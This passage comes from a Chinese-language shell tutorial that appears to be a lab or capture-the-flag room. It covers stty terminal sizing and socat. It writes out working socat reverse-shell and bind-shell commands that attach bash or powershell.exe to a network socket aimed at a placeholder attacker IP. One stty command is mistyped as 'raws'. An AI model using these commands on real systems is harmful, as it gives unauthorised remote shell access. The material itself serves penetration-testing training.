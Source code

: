 

接下来，在您的 reverse / bind shell 中，键入： `stty raws <number1> 和 stty cols <number2>` 命令
number1、number2 填写您在自己的终端中运行命令获得的数字（上图分别是 45 和 118）。 这将改变终端的注册宽度和高度，从而使得文本编辑器等依赖此类信息准确的程序正确打开。

**回答以下问题：**

1. 您将如何将终端大小更改为 238 列？
2. 在端口 80 上设置 Python3 网络服务器的语法是什么？

### 2.6 Socat

Socat 在某些方面与 netcat 相似，但在许多其他方面有根本的不同。考虑 socat 的最简单方法是将其作为两点之间的连接器。在这个房间内，这基本上是一个监听端口和键盘，但是，它也可以是一个监听端口和一个文件，或者实际上是两个监听端口。 socat 所做的只是提供两点之间的链接——很像 Portal 游戏中的 portal gun！ 

我们再次以反向 shell 为例：

#### 1. 反向 shell
如前所述，socat 的语法比 netcat 的语法难得多。

下面是 socat 中开启反向 shell 侦听器的语法：
```bash
socat TCP-L:<端口> -
```

与 netcat 一样，这需要两个点（监听的端口和标准输入）并将它们连接在一起。

生成的 shell 是不稳定的，但这将适用于 Linux 或 Windows，并且等效于 `nc -lvnp <port>`。 

在 Windows 上，我们将使用以下命令连接上述侦听器：

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes 
```    
 “pipes” 选项用于强制 powershell（或 cmd.exe）使用 Unix 风格的标准输入和输出。 
Linux 目标的等效命令如下：

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
#### Bind Shells
在 Linux 目标上，我们将使用以下命令：
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```
    
在 Windows 目标上，我们将为我们的侦听器使用此命令：
```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

我们使用 “pipes” 参数来连接 Unix 和 Windows 在 CLI 环境中处理输入和输出的方式。 
无论目标是什么，我们都在我们的攻击机器上使用这个命令来连接到等待的监听器。 
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

现在让我们来看看 Socat 的一个更强大的用途：一个完全稳定的 Linux tty 反向 shell。这仅在目标为 Linux 时有效，但要稳定得多。如前所述，socat 是一个非常通用的工具；然而，以下技术可能是其最有用的应用之一。这是新的侦听器语法： 
